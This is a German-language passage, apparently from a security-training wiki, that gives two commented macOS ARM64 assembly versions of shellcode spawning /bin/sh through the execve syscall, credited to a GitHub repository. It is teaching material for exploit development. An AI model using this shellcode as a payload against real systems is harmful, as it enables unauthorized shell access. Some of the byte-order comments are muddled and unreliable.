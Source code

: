 #### Shell

Entnommen von [**hier**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) und erklärt.

{% tabs %}
{% tab title="mit adr" %}
```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
adr  x0, sh_path  ; This is the address of "/bin/sh".
mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
mov  x16, #59     ; Move the execve syscall number (59) into x16.
svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```
{% endtab %}

{% tab title="mit Stack" %}
```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
; We are going to build the string "/bin/sh" and place it on the stack.

mov  x1, #0x622F  ; Move the lower half of "/bi" into x1. 0x62 = 'b', 0x2F = '/'.
movk x1, #0x6E69, lsl #16 ; Move the next half of "/bin" into x1, shifted left by 16. 0x6E = 'n', 0x69 = 'i'.
movk x1, #0x732F, lsl #32 ; Move the first half of "/sh" into x1, shifted left by 32. 0x73 = 's', 0x2F = '/'.
movk x1, #0x68, lsl #48   ; Move the last part of "/sh" into x1, shifted left by 48. 0x68 = 'h'.

str  x1, [sp, #-8] ; Store the value of x1 (the "/bin/sh" string) at the location `sp - 8`.

; Prepare arguments for the execve syscall.

mov  x1, #8       ; Set x1 to 8.
sub  x0, sp, x1   ; Subtract x1 (8) from the stack pointer (sp) and store the result in x0. This is the address of "/bin/sh" string on the stack.
mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.

; Make the syscall.

mov  x16, #59     ; Move the execve syscall number (59) into x16.
svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

```
{% endtab %}
